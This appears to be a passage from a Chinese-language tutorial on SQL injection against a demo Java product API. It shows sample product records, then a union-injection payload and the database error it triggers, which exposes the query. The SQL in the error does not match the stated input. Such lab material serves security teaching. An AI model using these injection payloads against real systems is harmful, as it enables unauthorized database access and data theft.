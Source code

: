 ```json
[
  {
    "id": 1,
    "productName": "i-000000000001",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 1000
  },
  {
    "id": 2,
    "productName": "i-000000000002",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 2000
  },
  {
    "id": 3,
    "productName": "i-000000000003",
    "specification": "xlarge.c",
    "type": "ECS",
    "price": 3000
  },
  {
    "id": 4,
    "productName": "d-000000000004",
    "specification": "ssd",
    "type": "DISK",
    "price": 1500
  },
  {
    "id": 5,
    "productName": "d-000000000005",
    "specification": "edds",
    "type": "DISK",
    "price": 2500
  },
  {
    "id": 6,
    "productName": "eni-000000000006",
    "specification": "vpc",
    "type": "ENI",
    "price": 800
  }
]
```

### union注入

**step1**：union会将两个联合查询的结果作为一个并集返回，如果没有查询到，会将查询列直接返回。如下我们输入`1 union select 1,2-- `，会发现抱错如下：

```json
{
  "timestamp": "2021-06-15T14:46:10.651+0000",
  "status": 500,
  "error": "Internal Server Error",
  "message": "\r\n### Error querying database.  Cause: java.sql.SQLException: The used SELECT statements have a different number of columns\r\n### The error may exist in com/example/security/mapper/ProductMapper.java (best guess)\r\n### The error may involve com.example.security.mapper.ProductMapper.searchProduct-Inline\r\n### The error occurred while setting parameters\r\n### SQL: select * from product where id = id = 1 union select 1,2,34,5--\r\n### Cause: java.sql.SQLException: The used SELECT statements have a different number of columns\n; bad SQL grammar []; nested exception is java.sql.SQLException: The used SELECT statements have a different number of columns",
  "path": "/stock/reduce"
}
```